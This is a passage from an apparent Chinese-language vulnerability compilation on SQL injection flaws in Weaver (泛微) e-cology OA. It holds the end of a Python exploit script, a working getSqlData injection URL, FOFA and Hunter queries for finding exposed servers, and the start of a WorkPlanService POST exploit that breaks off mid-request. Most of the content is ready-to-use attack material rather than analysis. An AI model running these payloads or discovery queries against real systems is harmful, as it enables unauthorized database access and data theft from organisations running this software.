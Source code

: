 ```
    res=requests.post(url=target,data=payload,headers=headers,timeout=10)
    res.encoding=res.apparent_encoding
    print(res.text)

if __name__ == '__main__':
    url=sys.argv[1]
    exploit(url)
```  
- 参考文章  
泛微OA WorkflowCenterTreeData接口注入复现（仅限oracle数据库）  
### 2.1.2泛微OA E-Cology getSqlData SQL注入漏洞  
  
1.漏洞描述  
  
泛微e-cology是专为大中型企业制作的OA办公系统,支持PC端、移动端和微信端同时办公等。 泛微e-cology存在SQL注入漏洞。攻击者可利用该漏洞获取敏感信息。  
  
2.漏洞影响  
  
泛微e-cology 8.0  
  
3.FOFA  
  
app="泛微-协同办公OA"  
  
4.漏洞复现  
  
登录页面  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEahET4D9upp71ocVSgPzGCmHShpZYlXDFdwibSoZHZ8TVkkcRrKMI9gicu40qxOgtibfG9r58w5Z3Ig/640?wx_fmt=png&from=appmsg "")  
  
5.验证POC  
  
/Api/portal/elementEcodeAddon/getSqlData?sql=select%20@@version  
### 2.1.3泛微e-cology9接口WorkPlanService前台SQL注入漏洞(XVE-2024-18112)  
  
泛微e-cology是一款由泛微网络科技开发的协同管理平台，支持人力资源、财务、行政等多功能管理和移动办公。泛微e-cology9系统WorkPlanService前台存在SQL注入漏洞。  
  
1.fofa  
  
app="泛微-协同商务系统"  
  
2.hunter  
  
app.name=="泛微 e-cology 9.0 OA"  
  
3.poc  
  
  
POST /services/WorkPlanService HTTP/1.1  
  
HOST:   
  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36  
  
Content-Type: text/xml;charset=UTF-8  
  
Connection: close  
  